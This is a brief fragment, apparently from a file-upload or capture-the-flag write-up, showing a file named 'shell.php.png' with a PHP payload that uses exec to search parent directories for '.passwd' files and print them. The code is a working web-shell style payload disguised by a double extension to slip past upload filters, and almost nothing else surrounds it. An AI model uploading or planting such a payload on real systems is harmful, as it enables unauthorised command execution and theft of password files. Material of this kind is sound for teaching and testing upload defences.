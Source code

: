 File name: `shell.php.png`

Payload:
```php
<?php
echo exec('find ../../../ -name ".passwd" -exec cat {} \;');
?>
```